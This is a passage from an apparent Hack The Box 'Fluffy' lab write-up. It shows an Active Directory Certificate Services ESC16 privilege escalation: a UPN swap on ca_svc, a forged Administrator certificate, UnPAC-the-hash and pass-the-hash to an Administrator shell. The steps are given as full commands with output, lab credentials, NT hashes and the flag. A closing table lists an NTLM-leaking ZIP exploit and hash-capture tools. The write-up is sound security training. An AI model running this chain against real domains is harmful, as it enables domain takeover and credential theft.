sudo ntpdate 10.129.232.88

python3 getnthash.py -key f085b368c2c16468ab8fa6d074c6732ca6539856146b0b103ee89710e0e73000 fluffy.htb/ca_svc -dc-ip 10.129.232.88

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
ca0f4f9e9eb8a092addf53bb03fc98c8
```

# Privilege Escalation

**ESC16 — Security Extension Disabled (szOID_NTDS_CA_SECURITY_EXT)**

> **What is ESC16?**
> 

> The CA has the OID `1.3.6.1.4.1.311.25.2` (`szOID_NTDS_CA_SECURITY_EXT`) disabled globally. This means issued certificates **do not embed the requester's SID**, so the DC maps certificate-to-account purely via UPN. If we control an account whose UPN we can modify (via `GenericWrite`), we can request a cert that authenticates as any user — including Administrator.
> 

Attack Chain

```bash
GenericWrite over ca_svc
        │
        │ Modify ca_svc UPN → administrator
        ▼
Request cert as ca_svc
        │
        │ DC issues cert with UPN = administrator (no SID check)
        ▼
Revert ca_svc UPN back
        │
        │ Authenticate with cert → DC maps to Administrator
        ▼
Extract Administrator NT Hash → Shell
```

Step 1 — Enumerate ADCS for Vulnerable Templates

> We run certipy as `ca_svc` since it has enrollment rights (`Cert Publishers` group). The output confirms **ESC16** — the disabled OID `1.3.6.1.4.1.311.25.2` means no SID is embedded in issued certs, making UPN spoofing possible.
> 

```bash
certipy-ad find -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -vulnerable 

Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3150FA7E60CE28AD4DAE41A1B61D8874
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:12:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
                                          FLUFFY.HTB\Administrators
        Read                            : FLUFFY.HTB\Administrators
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

Step 2 — Re-add P.AGILA to Service Accounts

> Group membership resets between sessions on HTB. We re-add `p.agila` to `Service Accounts` to regain `GenericWrite` over `ca_svc`, which allows us to modify its UPN attribute.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy/administrator]
└─$ bloodyAD -u p.agila -p 'prometheusx-303' -d fluffy.htb --host 10.129.232.88 add groupMember "Service Accounts" "P.AGILA"
[+] P.AGILA added to Service Accounts
```

Step 3 — Change ca_svc UPN to Administrator

> We abuse `GenericWrite` to overwrite `ca_svc`'s `userPrincipalName` attribute to `administrator`. When a cert is now requested as `ca_svc`, the CA embeds `administrator` as the UPN — since ESC16 disables SID binding, the DC will trust this mapping on authentication.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy/administrator]
└─$ certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'administrator'         
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

Step 4 — Request Certificate as ca_svc

> We request a cert using the default `User` template as `ca_svc`. Since `ca_svc`'s UPN is currently `administrator`, the CA issues a cert with `UPN = administrator`. The cert has no object SID (confirming ESC16) — this is exactly what we need.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy/administrator]
└─$ 

Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] Nameserver: '10.129.232.88'
[+] DC IP: '10.129.232.88'
[+] DC Host: None
[+] Target IP: None
[+] Remote Name: 'dc01.fluffy.htb'
[+] Domain: ''
[+] Username: 'CA_SVC'
[+] Trying to resolve 'dc01.fluffy.htb' at '10.129.232.88'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.232.88[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.232.88[\pipe\cert]
[*] Request ID is 27
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[+] Attempting to write data to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): 
[+] Using alternative filename: 'administrator_9586d0b3-c3de-4b23-bce1-598303a5da99.pfx'
[+] Data written to 'administrator_9586d0b3-c3de-4b23-bce1-598303a5da99.pfx'
[*] Wrote certificate and private key to 'administrator_9586d0b3-c3de-4b23-bce1-598303a5da99.pfx'
```

Step 5 — Revert ca_svc UPN (Cleanup)

> We immediately revert `ca_svc`'s UPN back to its original value. The cert we obtained is already signed and valid — reverting the UPN doesn't invalidate it. This step is critical to avoid breaking the CA service account.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy/administrator]
└─$ certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'ca_svc@fluffy.htb'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'                                               
```

Step 6 — Authenticate with Cert → Extract NT Hash

> We use the administrator cert to perform PKINIT Kerberos authentication. The DC maps the cert's UPN (`administrator`) to the Administrator account and issues a TGT. Certipy then performs **UnPAC the Hash** to extract the NT hash from the PAC inside the TGT.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy/administrator]
└─$ sudo ntpdate 10.129.232.88                                                                                              
2026-05-25 05:20:19.782557 (+0530) +25200.179245 +/- 0.143350 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25200.179245
                                                                                                                                            
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy/administrator]
└─$ certipy-ad auth -pfx administrator.pfx -domain 'fluffy.htb' -dc-ip 10.129.232.88
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

Step 7 — Shell as Administrator

> With the Administrator NT hash we authenticate via WinRM using Pass-the-Hash — full domain compromise achieved.
> 

```bash
┌──(parallels㉿kali-linux-2025-2)-[~/Desktop/CPTS-Track/Fluffy/ca_svc]
└─$ evil-winrm -i 10.129.232.88 -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd  ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b4b6ae725c7552ced5b013e4ef0ea388
```

### Attack Chain Summary

| Step | Action | Technique |
| --- | --- | --- |
| 1 | Enumerate ADCS | certipy find → ESC16 confirmed |
| 2 | Regain GenericWrite | Add p.agila to Service Accounts |
| 3 | Modify ca_svc UPN | GenericWrite → set UPN = administrator |
| 4 | Request cert | CA issues cert with administrator UPN |
| 5 | Revert UPN | Cleanup — cert already signed |
| 6 | PKINIT + UnPAC | Cert auth → extract NT hash |
| 7 | Pass-the-Hash | evil-winrm → Administrator shell |

## Tools Used — Fluffy HTB

| Tool | Purpose | Command Example |
| --- | --- | --- |
| Nmap | Port scanning & DC time retrieval | `nmap -sV -sC -p- <IP>` |
| NetExec | SMB enumeration, ADCS discovery, hash validation | `netexec smb <IP> -u <user> -p <pass> --shares` |
| SMBClient | Connect to IT share, upload/download files | `smbclient //<IP>/IT -U user%pass` |
| Responder | Capture NTLMv2 hash from CVE-2025-24071 trigger | `responder -I tun0 -wv` |
| Hashcat | Crack NTLMv2 hash offline | `hashcat -m 5600 hash.txt rockyou.txt` |
| BloodHound | AD enumeration, ACL/DACL attack path discovery | `bloodhound-python -d fluffy.htb -u user -p pass -c all` |
| bloodyAD | Add group member via GenericAll abuse | `bloodyAD add groupMember "Service Accounts" "P.AGILA"` |
| PyWhisker | Write shadow credentials to msDS-KeyCredentialLink | `pywhisker --target winrm_svc --action add` |
| PKINITtools/gettgtpkinit | Request TGT via PKINIT using certificate | `gettgtpkinit.py -cert-pfx cert.pfx domain/user out.ccache` |
| PKINITtools/getnthash | Extract NT hash via UnPAC the Hash | `getnthash.py -key <AS-REP-key> domain/user` |
| Certipy-AD | Shadow creds, ADCS enum, ESC16 exploit, cert auth | `certipy-ad shadow auto / find / req / auth` |
| Evil-WinRM | WinRM shell via Pass-the-Hash | `evil-winrm -i <IP> -u user -H <hash>` |
| ntpdate | Sync system clock to DC for Kerberos | `sudo ntpdate <DC-IP>` |
| CVE-2025-24071 PoC | Generate malicious ZIP with .library-ms UNC payload | `python3 CVE-2025-24071.py --lhost <IP>` |

---

### Tools by Attack Phase

| Phase | Tools Used |
| --- | --- |
| **Reconnaissance** | Nmap, NetExec |
| **Initial Access** | CVE-2025-24071 PoC (Self-Written), SMBClient, Responder, Hashcat |
| **AD Enumeration** | BloodHound, bloodhound-python |
| **Foothold** | bloodyAD, PyWhisker, PKINITtools, Evil-WinRM |
| **ADCS Enumeration** | Certipy-AD, NetExec (adcs module) |
| **Privilege Escalation** | Certipy-AD, bloodyAD, Evil-WinRM |
| **Clock Sync** | ntpdate |